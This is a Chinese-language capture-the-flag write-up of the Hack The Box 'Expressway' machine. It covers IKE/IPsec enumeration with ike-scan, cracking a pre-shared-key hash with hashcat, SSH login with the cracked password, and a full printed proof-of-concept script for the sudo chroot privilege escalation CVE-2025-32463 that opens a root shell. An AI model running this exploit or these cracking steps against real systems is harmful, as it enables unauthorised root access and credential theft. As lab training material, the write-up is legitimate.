






# HTB-Season9-Expressway Writeup

## 信息收集

### 端口扫描

```bash
nmap -sS -A -T4 -p- 10.10.11.87
```



端口扫描只有22端口开放，没有其他端口开放,扫描udp端口。

```bash
nmap -sU --top-ports 100 10.10.11.87 
```



发现500端口开放,isakmp这是IPsec服务通常用于建立安全通信通道
详细见[IPsec-ISAKMP](https://book.hacktricks.wiki/zh/network-services-pentesting/ipsec-ike-vpn-pentesting.html?highlight=isakmp#basic-information)

若开启PSK技术,则可以提取预设的密钥,可尝试用于暴力破解.

## 漏洞利用

### ike-scan

#### ike-scan 扫描

ike-scan是一个用于扫描ipsec服务的工具,可以用于寻找有效的转换模式和提取哈希

```bash
ike-scan -M 10.10.11.87
```



可以得到以下信息:
```
Main Mode handshake successful
Encryption: 3DES (weak by modern standards)
Hash: SHA1
Authentication: PSK (Pre-Shared Key)
XAUTH support detected
Dead Peer Detection enabled
```

有一个字段叫做 AUTH，其值为 PSK。这意味着 VPN 是使用预共享密钥配置的

最后一行的值也非常重要：

0 returned handshake; 0 returned notify: 这意味着目标 不是 IPsec 网关。
1 returned handshake; 0 returned notify: 这意味着 目标已配置为 IPsec，并愿意进行 IKE 协商，您提议的一个或多个变换是可接受的（有效的变换将在输出中显示）。
0 returned handshake; 1 returned notify: VPN 网关在 没有变换可接受 时会回复通知消息（尽管有些网关不会，在这种情况下应进行进一步分析并尝试修订提案）。

#### 使用 ike-scan 进行暴力破解 ID

首先尝试使用假 ID 发起请求，试图收集哈希（“-P”）：

```bash
ike-scan -P -M -A -n fakeID 10.10.11.87
```



通过 Value=ike@expressway.htb 可以知道XAUTH的用户ID就是 ike

#### 爆破hash

```bash
hashcat -m 5400 hash.txt /usr/share/wordlists/rockyou.txt
```



成功爆破出密码: freakingrockstarontheroad

## login

使用ssh登录

```bash
ssh ike@10.10.11.87
```
密码: freakingrockstarontheroad

登录成功



## 提权

查询suid和sudo权限无果

查看sudo版本为1.9.17,查询sudo版本漏洞

```bash
searchsploit sudo 1.9.17
```

可以看到有一个漏洞,编号为 48055, 类型为本地提权,复制漏洞到本地

```bash
searchsploit -m 48055
```

exp为:
```bash
#!/bin/bash
# sudo-chwoot.sh – PoC CVE-2025-32463
set -e

STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd "$STAGE"

# 1. NSS library
cat > woot1337.c <<'EOF'
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor))
void woot(void) {
    setreuid(0,0);          /* change to UID 0 */
    setregid(0,0);          /* change  to GID 0 */
    chdir("/");             /* exit from chroot */
    execl("/bin/bash","/bin/bash",NULL); /* root shell */
}
EOF

# 2. Mini chroot with toxic nsswitch.conf
mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc            # make getgrnam() not fail

# 3. compile libnss_
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "[*] Running exploit…"
sudo -R woot woot                 # (-R <dir> <cmd>)
                                   # • the first “woot” is chroot
                                   # • the second “woot” is and inexistent
command
                                   #   (only needs resolve the user)

rm -rf "$STAGE"
```

复制exp到靶机,赋予执行权限,执行后提权成功!

```bash
chmod +x sudo-chwoot.sh
./sudo-chwoot.sh
```


